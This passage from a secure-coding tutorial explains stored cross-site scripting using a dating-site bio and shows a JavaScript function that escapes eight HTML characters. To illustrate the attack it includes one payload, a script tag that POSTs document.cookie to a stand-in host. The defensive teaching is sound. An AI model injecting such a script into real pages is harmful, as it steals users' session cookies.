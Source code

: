 The kind of vulnerability this prevents is often called a Cross-Site Scripting (XSS) attack, a term that is [broadly used](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html#introduction) to mean the injection of any unexpected content into your webpage. Typically, an attacker uses your APIs to store malicious code in your database, which you then serve to your other users who request that info.

For example, let's say you're building a dating site, and it lets users share a little bio about themselves. You'd render that bio like this, with `{{ user.bio }}` being the bio stored in the database:

```html
<p>
{{ user.bio }}
</p>
```

If a malicious user wrote a bio with a script element in it—like one that sends the client's cookie to another website—then this HTML will get sent to every user who views that bio:

```html
<p>
<script>
  fetch('evilwebsite.com', { method: 'POST', body: document.cookie })
</script>
</p>
```

Fortunately this one is so easy to fix that you can write the code yourself. Whenever you insert untrusted (i.e. user-provided) data, you just have to replace eight characters with their non-code equivalents. This is an example using JavaScript:

```js
/**
 * Replace any characters that could be used to inject a malicious script in an HTML context.
 */
export function escapeHtmlText (value) {
  const stringValue = value.toString()
  const entityMap = {
    '&': '&amp;',
    '<': '&lt;',
    '>': '&gt;',
    '"': '&quot;',
    "'": '&#x27;',
    '/': '&#x2F;',
    '`': '&grave;',
    '=': '&#x3D;'
  }

  // Match any of the characters inside /[ ... ]/
  const regex = /[&<>"'`=/]/g
  return stringValue.replace(regex, match => entityMap[match])
}
```

This tiny JS function replaces `<` with `&lt;`, `"` with `&quot;`, and so on. These characters will still render properly as `<` and `"` when they're used in the text, but can't be interpreted as code constructs. The previous malicious bio will now be converted into the following HTML:
